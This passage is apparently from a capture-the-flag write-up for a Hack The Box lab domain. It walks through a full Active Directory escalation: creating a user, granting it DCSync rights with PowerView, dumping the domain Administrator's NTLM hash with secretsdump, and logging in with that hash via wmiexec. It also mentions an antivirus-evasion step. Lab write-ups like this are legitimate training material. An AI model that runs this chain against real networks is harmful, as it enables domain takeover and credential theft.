 - add a new user to Exchange Windows Permissions as well as the Remote Management Users group.
```
  *Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net user islam iso12345 /add /domain
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> net group "Exchange Windows Permissions" islam /add /domain
The command completed successfully.
```
- download the PowerView script and import it into the current session
```
. ./Powerview.ps1
```
- The Bypass-4MSI command is used to evade defender before importing the script
-  Next, we can use the Add-ObjectACL with islam's credentials, and give him DCSync rights
```
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> $SecPassword = ConvertTo-SecureString 'iso12345' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> $Cred = New-Object System.Management.Automation.PSCredential('htb\islam', $SecPassword)
*Evil-WinRM* PS C:\Users\svc-alfresco\appdata\local\temp> Add-ObjectAcl -PrincipalIdentity islam -Credential $Cred -TargetIdentity htb.local -Rights DCSync
```
- run secretsdump.py  script from Impacket can now be run as islam, and used to reveal the NTLM hashes for all domain users
  
```
impacket-secretsdump htb/islam:iso12345@10.10.10.161 
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
```
- The obtained Domain Admin hash can be used to login via wmiexec 
```
impacket-wmiexec -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 htb.local/administrator@10.10.10.161
```
- and shell with admin root flag on desktop
